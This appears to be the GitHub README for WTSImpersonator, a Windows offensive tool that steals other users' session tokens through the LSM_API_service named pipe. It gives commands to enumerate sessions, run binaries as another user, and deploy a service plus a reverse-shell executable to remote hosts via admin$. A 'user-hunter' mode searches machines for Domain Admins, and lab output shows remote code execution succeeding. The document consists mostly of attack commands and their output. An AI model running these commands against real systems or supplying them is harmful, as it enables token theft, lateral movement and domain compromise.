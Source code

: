 # WTSImpersonator
WTSImpersonator utilizes WTSQueryUserToken to steal other users tokens \(Local/Remote\) without using NtOpenProcess or touching Lsass.exe by abusing RPC Named Pipe "\\pipe\LSM_API_service" \(Admin Privileges Required\)  
  
### Usage: 
 
##### `enum` Module  
  
Enumerate Local Users on the machine the tool is running from  
```powershell
.\WTSImpersonator.exe -m enum
```
Enumerate a machine remotely given an IP or an Hostname.
```powershell  
.\WTSImpersonator.exe -m enum -s 192.168.40.131  
```
##### `exec` / `exec-remote` Module  
Both "exec" and "exec-remote" requires being in a **"Service"** context.  
The local "exec" module does not need anything buy the WTSImpersonator.exe and the binary you want to execute \(-c flag\), this could be  
a normal "C:\Windows\System32\cmd.exe" and you will open a CMD as the user you desire, an example would be  
```powershell
.\WTSImpersonator.exe -m exec -s 3 -c C:\Windows\System32\cmd.exe  
```
you could use PsExec64.exe in order to obtain a service context  
```powershell
.\PsExec64.exe -accepteula -s cmd.exe
```powershell
For `exec-remote` things are a bit different, I created a service that can be installed remotely just like `PsExec.exe`  
the service will receive a `SessionId` and a `binary to run` as an argument and it will be installed and executed remotely given the right permissions  
an example run would look as follows:
  
```powershell
PS C:\Users\Jon\Desktop> .\WTSImpersonator.exe -m enum -s 192.168.40.129

 __          _________ _____ _____                                                 _
 \ \        / /__   __/ ____|_   _|                                               | |
  \ \  /\  / /   | | | (___   | |  _ __ ___  _ __   ___ _ __ ___  ___  _ __   __ _| |_ ___  _ __
   \ \/  \/ /    | |  \___ \  | | | '_ ` _ \| '_ \ / _ \ '__/ __|/ _ \| '_ \ / _` | __/ _ \| '__|
    \  /\  /     | |  ____) |_| |_| | | | | | |_) |  __/ |  \__ \ (_) | | | | (_| | || (_) | |
     \/  \/      |_| |_____/|_____|_| |_| |_| .__/ \___|_|  |___/\___/|_| |_|\__,_|\__\___/|_|
                                            | |
                                            |_|
         By: Omri Baso
WTSEnumerateSessions count: 1
[2] SessionId: 2 State: WTSDisconnected (4) WinstationName: ''
        WTSUserName:  Administrator
        WTSDomainName: LABS
        WTSConnectState: 4 (WTSDisconnected)
```  
as can be seen above the `Sessionid` of the Administrator account is `2` so we use it next in the `id` variable when executing code remotely
```powershell
PS C:\Users\Jon\Desktop> .\WTSImpersonator.exe -m exec-remote -s 192.168.40.129 -c .\SimpleReverseShellExample.exe -sp .\WTSService.exe -id 2
```  
##### `user-hunter` Module  

The user hunter module will give you the ability to enumerate multiple machines and if a given user is found, it will execute code on this user behalf.  
this is useful when hunting for "Domain Admins" while having local administrator rights on a few machines.  
```powershell
PS C:\Users\Jon\Desktop> .\WTSImpersonator.exe -m user-hunter -uh LABS/Administrator -ipl .\test.txt -c .\SimpleReverseShellExample.exe -sp .\WTSService.exe

 __          _________ _____ _____                                                 _
 \ \        / /__   __/ ____|_   _|                                               | |
  \ \  /\  / /   | | | (___   | |  _ __ ___  _ __   ___ _ __ ___  ___  _ __   __ _| |_ ___  _ __
   \ \/  \/ /    | |  \___ \  | | | '_ ` _ \| '_ \ / _ \ '__/ __|/ _ \| '_ \ / _` | __/ _ \| '__|
    \  /\  /     | |  ____) |_| |_| | | | | | |_) |  __/ |  \__ \ (_) | | | | (_| | || (_) | |
     \/  \/      |_| |_____/|_____|_| |_| |_| .__/ \___|_|  |___/\___/|_| |_|\__,_|\__\___/|_|
                                            | |
                                            |_|
         By: Omri Baso

[+] Hunting for: LABS/Administrator On list: .\test.txt
[-] Trying: 192.168.40.131
[+] Opned WTS Handle: 192.168.40.131
[-] Trying: 192.168.40.129
[+] Opned WTS Handle: 192.168.40.129

----------------------------------------
[+] Found User: LABS/Administrator On Server: 192.168.40.129
[+] Getting Code Execution as: LABS/Administrator
[+] Trying to execute remotly
[+] Transfering file remotely from: .\WTSService.exe To: \\192.168.40.129\admin$\voli.exe
[+] Transfering file remotely from: .\SimpleReverseShellExample.exe To: \\192.168.40.129\admin$\DrkSIM.exe
[+] Successfully transfered file!
[+] Successfully transfered file!
[+] Sucessfully Transferred Both Files
[+] Will Create Service voli
[+] Create Service Success : "C:\Windows\voli.exe" 2 C:\Windows\DrkSIM.exe
[+] OpenService Success!
[+] Started Sevice Sucessfully!

[+] Deleted Service
```
